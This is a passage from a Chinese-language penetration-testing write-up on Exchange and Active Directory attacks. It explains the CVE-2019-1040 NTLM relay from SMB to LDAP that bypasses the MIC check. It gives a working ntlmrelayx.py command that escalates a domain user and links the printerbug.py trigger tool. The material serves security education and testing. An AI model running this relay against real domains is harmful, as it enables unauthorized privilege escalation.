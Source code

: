 

## 九、CVE-2019-1040

**利用**

在这个漏洞之前利用smb转ldap时，有个mic检查导致无法中转成功，但利用这个CVE-2019-1040漏洞就实现了**直接绕过mic检查**，这是这个漏洞的关键点。利用方法类似2018-8581的形式。

**更新我们的impacket**

gti pull [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)

ntlmrelayx.py —remove-mic -t ldap://10.0.0.158 —escalate-user test -smb2support

**触发SpoolService的bug产生smb回连工具**

[https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)

**其他等同2018-8581部分**

**两个漏洞的区别**

2018-8581是利用exchange漏洞产生http-&gt;ldap中转实现的提权，2019-1040是产生的smb-&gt;ldap中转，并且绕过mic检查。

**以上关于exchange渗透测试知识点的总结，欢迎感兴趣的朋友一起交流沟通。**



## 十、参考链接

[![](https://p3.ssl.qhimg.com/t01787da0afaa351a6f.jpg)](https://p3.ssl.qhimg.com/t01787da0afaa351a6f.jpg)

图45
